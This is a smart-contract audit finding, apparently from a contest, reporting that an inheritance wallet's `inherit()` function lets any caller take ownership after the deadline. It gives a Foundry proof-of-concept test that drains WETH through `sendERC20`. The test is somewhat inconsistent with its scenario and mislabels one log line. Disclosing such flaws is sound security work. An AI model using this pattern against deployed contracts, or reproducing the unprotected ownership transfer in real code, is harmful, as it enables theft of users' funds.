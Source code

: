 ## Vulnerability Details

<https://github.com/CodeHawks-Contests/2025-03-inheritable-smart-contract-wallet/blob/9de6350f3b78be35a987e972a1362e26d8d5817d/src/InheritanceManager.sol#L217>

```javascript
function inherit() external {
        if (block.timestamp < getDeadline()) {
            revert InactivityPeriodNotLongEnough();
        }
        if (beneficiaries.length == 1) {
            owner = msg.sender;
            _setDeadline();
        } else if (beneficiaries.length > 1) {
            isInherited = true;
        } else {
            revert InvalidBeneficiaries();
        }
    }
```

### Exploitation Scenario

1. The contract has only one beneficiary.
2. The attacker waits for the inheritance deadline to pass.
3. The attacker calls `inheritanceManager::inherit()`, becoming the new owner.
4. As the new owner, the attacker calls `inheritanceManager::sendERC20` to drain ERC20 tokens.

## Proof of Concept

Paste the following test in `inheritanceManagerTest.t.sol`

```javascript
function test_sendERC20FromAttacker() public {
    usdc.mint(address(im), 10e18);
    weth.mint(address(im), 10e18);
    vm.startPrank(owner);
    im.sendERC20(address(weth), 1e18, user1);
    console.log("Previous owner balance before attack:", weth.balanceOf(address(im)));
    address user2 = makeAddr("user2");
    im.addBeneficiery(user2);
    vm.stopPrank();

    vm.warp(1 + 90 days);

    vm.startPrank(address(attacker));
    console.log("Attacker balance before attack:", weth.balanceOf(address(attacker)));
    uint256 fullInheritanceBalance = weth.balanceOf(address(im));
    im.inherit();
    im.sendERC20(address(weth), fullInheritanceBalance, address(attacker));
    console.log("Previous owner balance after attack:", weth.balanceOf(address(im)));
    console.log("Attacker balance before attack:", weth.balanceOf(address(attacker)));
    vm.stopPrank();
}
```
